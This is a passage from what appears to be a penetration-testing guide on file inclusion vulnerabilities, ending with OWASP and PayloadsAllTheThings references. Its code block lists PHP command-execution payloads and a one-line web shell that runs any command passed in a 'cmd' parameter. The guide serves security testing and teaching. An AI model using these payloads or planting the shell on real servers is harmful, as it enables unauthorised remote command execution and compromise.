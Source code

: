 If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute code with one of the following payloads.

{% hint style="info" %}
As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.
{% endhint %}

```php
<?php system('whoami'); ?>
<?php exec('whoami'); ?>
<?php passthru('whoami'); ?>
<?php shell_exec('whoami'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/directory-traversal" %}

{% embed url="https://portswigger.net/web-security/file-path-traversal" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include.html" %}
Directory traversal and File Include
{% endembed %}

{% embed url="https://owasp.org/www-community/attacks/Path_Traversal" %}
Testing for Directory traversal
{% endembed %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html" %}
Testing for Remote File Inclusion
{% endembed %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion.html" %}
Testing for Local File Inclusion
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}
